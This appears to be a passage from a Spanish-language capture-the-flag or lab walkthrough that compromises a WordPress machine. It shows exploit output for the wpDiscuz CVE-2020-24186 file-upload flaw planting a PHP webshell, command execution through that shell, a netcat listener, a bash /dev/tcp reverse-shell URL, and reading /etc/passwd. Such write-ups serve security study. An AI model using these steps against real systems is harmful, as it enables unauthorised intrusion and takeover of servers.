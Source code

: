 Vemos lo siguiente:
```bash
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[93974] | code:[200]
[!] Got wmuSecurity value: a0f583222a
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: occrtcufkfsriru

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://192.168.0.108/wordpress/wp-content/uploads/2025/08/occrtcufkfsriru-1755025176.4199.php&quot; 

>
```

Vemos la ruta donde se almaceno nuestra **revershell**
```bash
[+] Upload Success... Webshell path:url&quot;:&quot;http://192.168.0.108/wordpress/wp-content/uploads/2025/08/occrtcufkfsriru-1755025176.4199.php&quot;
```

Probamos a ejecutra comandos:
```bash
http://192.168.100.36/wordpress/wp-content/uploads/2025/08/occrtcufkfsriru-1755025176.4199.php?cmd=whoami
```

En la web vemos lo siguiente:
```bash
GIF689a; www-data 
```
### Intrusion
Ahora nos ponemos en escucha para ganar acceso al objetivo
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
192.168.100.36/wordpress/wp-content/uploads/2025/08/occrtcufkfsriru-1755025176.4199.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/192.168.100.24/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracion Usuarios del sistema
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
mortadela:x:1000:1000:mortadela,,,:/home/mortadela:/bin/bash
```
